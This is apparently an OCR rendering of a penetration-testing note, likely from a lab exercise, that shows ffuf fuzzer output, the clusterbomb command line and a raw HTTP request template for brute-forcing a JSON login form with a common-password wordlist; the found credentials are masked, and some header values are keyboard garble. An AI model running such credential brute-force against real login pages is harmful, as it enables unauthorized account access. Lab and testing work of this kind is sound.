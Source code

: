 
#############################################
#############################################



       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://interface/login
 :: Wordlist         : HFUZZ: DONE
 :: Wordlist         : WFUZZ: /usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt
 :: Header           : Accept: application/json, text/plain, */*
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Origin: http://interface
 :: Header           : Referer: http://interface/
 :: Header           : Host: interface
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: application/json
 :: Header           : Connection: close
 :: Data             : {"username":"HFUZZ","password":"WFUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

[Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 104ms]
| URL | http://interface/logintho
    * HFUZZ: XXX
    * WFUZZ: XXX


#############################################
#############################################


ffuf -c -request request.txt -request-proto http -mode clusterbomb -w DONE:HFUZZ -w /usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt:WFUZZ -mc 200,301,302 -v

<br>

POST /login HTTP/1.1<br>
Host: interface<br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0<br>
Accept: application/json, text/plain, */*<br>
Accept-Language: en-US,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Content-Type: application/json<br>
Content-Length: 47<br>
Origin: http://as;dfklna;sdflkasdfe<br>
Connection: close<br>
Referer: http://a;sldfnaskdf;nalskdfnafd<br>
<br>
{"username":"HFUZZ","password":"WFUZZ"}
<br>
